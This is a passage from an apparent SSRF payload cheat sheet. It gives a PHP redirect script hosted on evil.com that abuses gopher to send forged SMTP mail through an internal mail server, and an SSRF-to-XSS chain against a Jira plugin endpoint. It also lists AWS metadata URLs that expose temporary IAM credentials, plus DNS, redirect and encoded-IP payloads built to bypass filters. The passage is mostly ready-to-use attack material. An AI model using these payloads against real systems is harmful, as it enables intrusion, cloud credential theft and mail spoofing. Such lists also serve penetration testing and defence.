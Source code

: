     https://example.com/?q=http://evil.com/redirect.php.
### Gopher SMTP — send a mail
    Content of evil.com/redirect.php:
    <?php
            $commands = array(
                    'HELO victim.com',
                    'MAIL FROM: <admin@victim.com>',
                    'RCPT To: <sxcurity@oou.us>',
                    'DATA',
                    'Subject: @sxcurity!',
                    'Corben was here, woot woot!',
                    '.'
            );
            $payload = implode('%0A', $commands);
            header('Location: gopher://0:25/_'.$payload);
    ?>
### SSRF to XSS
by [@D0rkerDevil & @alyssa.o.herrera](https://medium.com/@D0rkerDevil/how-i-convert-ssrf-to-xss-in-a-ssrf-vulnerable-jira-e9f37ad5b158)
  
    http://brutelogic.com.br/poc.svg -> simple alert
    https://website.mil/plugins/servlet/oauth/users/icon-uri?consumerUri= -> simple ssrf
    https://website.mil/plugins/servlet/oauth/users/icon-uri?consumerUri=http://brutelogic.com.br/poc.svg

## SSRF URL for Cloud Instances
### SSRF URL for AWS Bucket
Interesting path to look for at http://169.254.169.254

    Always here : /latest/meta-data/{hostname,public-ipv4,...}
    User data (startup script for auto-scaling) : /latest/user-data
    Temporary AWS credentials : /latest/meta-data/iam/security-credentials/
DNS record

    http://169.254.169.254
    http://metadata.nicob.net/
    http://169.254.169.254.xip.io/
    http://1ynrnhl.xip.io/
    http://www.owasp.org.1ynrnhl.xip.io/
HTTP redirect

    Static:http://nicob.net/redir6a
    Dynamic:http://nicob.net/redir-http-169.254.169.254:80-
Alternate IP encoding

    http://425.510.425.510/ Dotted decimal with overflow
    http://2852039166/ Dotless decimal
    http://7147006462/ Dotless decimal with overflow
    http://0xA9.0xFE.0xA9.0xFE/ Dotted hexadecimal
    http://0xA9FEA9FE/ Dotless hexadecimal
    http://0x41414141A9FEA9FE/ Dotless hexadecimal with overflow
    http://0251.0376.0251.0376/ Dotted octal
    http://0251.00376.000251.0000376/ Dotted octal with padding
More urls to include
